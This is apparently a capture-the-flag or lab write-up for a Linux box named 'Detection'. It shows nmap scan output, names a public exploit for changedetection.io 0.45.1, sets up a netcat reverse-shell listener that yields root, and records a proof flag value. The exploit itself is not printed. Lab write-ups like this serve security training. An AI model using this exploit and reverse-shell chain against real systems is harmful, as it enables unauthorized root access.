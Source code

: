 # Linux - Detection

---

## Host Info - 192.168.117.97 - Linux

- Scan
    
    ```bash
    > nmap -sCV -A -Pn -O -p- 192.168.117.97 -oN tcpnmap.md
    
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
    |   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
    |_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
    5000/tcp open  http    Python http.server 3.5 - 3.10
    |_http-title: Change Detection
    
    Device type: general purpose|router
    Running: Linux 5.X, MikroTik RouterOS 7.X
    OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
    OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
    Network Distance: 4 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    > sudo nmap -sU -Pn <IP> --top-ports=100 --reason -oN udpnmap.md
    ```
    

---

## Walkthrough

- `5000` → `CHANGEDETECTION.IO v 0.45.1`
    
    ![image.png](Linux%20-%20Detection%20176553bebf0f80a88432dc6575ef4d5e/image.png)
    

```bash
# Google -> [link](https://www.exploit-db.com/exploits/52027)
> searchsploit -m 52027.py

> rlwrap nc -lvnp 9090
> whoami -> root

- Proof.txt : 620133072cccd2bafdcbafdaea8aaed5
```

- Exploit + PE
    
    ![image.png](Linux%20-%20Detection%20176553bebf0f80a88432dc6575ef4d5e/image%201.png)
    
    ![image.png](Linux%20-%20Detection%20176553bebf0f80a88432dc6575ef4d5e/image%202.png)